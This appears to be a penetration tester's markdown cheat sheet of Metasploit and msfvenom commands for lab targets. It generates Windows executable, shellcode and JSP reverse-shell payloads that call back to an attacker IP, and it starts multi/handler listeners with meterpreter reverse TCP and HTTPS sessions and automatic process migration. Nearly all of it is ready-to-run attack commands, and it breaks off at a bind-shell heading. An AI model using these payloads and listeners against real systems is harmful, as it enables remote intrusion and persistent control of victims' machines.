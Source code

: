 #### Setting up Meterpreter
One command at a time:
```
service postgresql start
sudo msfdb init
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
exploit
```
##### Windows reverse tcp exe 40000
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.152 LPORT=40000 -f exe > tpc_rev_40000.exe

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.21; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set LPORT 40000; set AutoRunScript post/windows/manage/migrate; exploit"
```

##### Widows reverse tcp 443
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.152 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.222; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set LPORT 443; set AutoRunScript post/windows/manage/migrate; exploit"
```

##### JSP reverse tcp 443
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.152 LPORT=443 -f raw > shell.jsp
	
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.222; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 192.168.119.152; set LPORT 443; exploit"

```
##### All at once - Reverse TCP
set RHOST to the IP of the host you are attacking
```
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.14; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set AutoRunScript post/windows/manage/migrate; exploit"

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.13; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.152; set LPORT 443; set AutoRunScript post/windows/manage/migrate; exploit"

```

##### All at once - Reverse HTTPS
```
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.13; set PAYLOAD windows/meterpreter/reverse_https;  set LHOST tun0; set LPORT 8443; set AutoRunScript post/windows/manage/migrate; exploit"

```
#### Auto Migrate Process
Before you run exploit run this
```
set AutoRunScript post/windows/manage/migrate
```
### Windows Bind Shell

